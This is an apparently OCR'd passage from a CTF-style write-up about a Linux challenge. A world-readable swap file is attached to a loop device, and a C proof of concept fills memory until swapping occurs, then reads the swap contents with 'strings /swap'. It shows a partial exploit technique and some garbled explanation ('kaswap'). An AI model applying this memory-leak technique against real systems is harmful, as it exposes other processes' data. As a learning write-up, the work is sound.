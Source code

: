 ```bash
losetup /dev/loop0 /swap
mkswap /dev/loop0 >/dev/null
swapon /dev/loop0 >/dev/null
```

I didn't quite familiar with linux bash grammar. After looking for some information, I finally found out what he did.

1. set mask of file mode creation[4] as 111, which means all users can open and read the following files created.

2. add a 10MB size file /swap, filled with zero

3. correlate /dev/loop0 with /swap using losetup[5]

4. construct a swap space in loop0 using kaswap[6] and enable by swapon

But to fully understand the meanings, we should go deep into linux swap files[7]. Shortly, swap files is a cache for physical RAM. When RAM memory is insufficient, kernel will copy some memory to swap files on the hard disk temporarily in order to leave more memory in RAM. 

So you might find the bugs here too. Swap files should never be directly writed by users because when the swap operation happens between RAM and swap files, deliberately constructed data writed in swap files will be directly copy to RAM memory! 

Let's see what will happen if we keep mmaping to occupy virtual memory.

```c
#include <stdio.h>
#include <memory.h>
#include <stdlib.h>
#include <sys/mman.h>


int main(int argc, char const *argv[])
{
        for (int i = 0; ; ++i)
        {
                char* buffer = mmap(NULL, 1024*1024, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
                memset(buffer, 'A', 1024*1024);
                printf("%d\n", i);
                system("strings /swap");
        }
        return 0;
}
```

```
/ $ /poc > /tmp/out
[   39.624986] Out of memory: Killed process 79 (poc) total-vm:45108kB, anon-rss:40kB, file-rss:4kB, shmem-rss:36004kB,0
Killed
/ $ vi /tmp/out
```
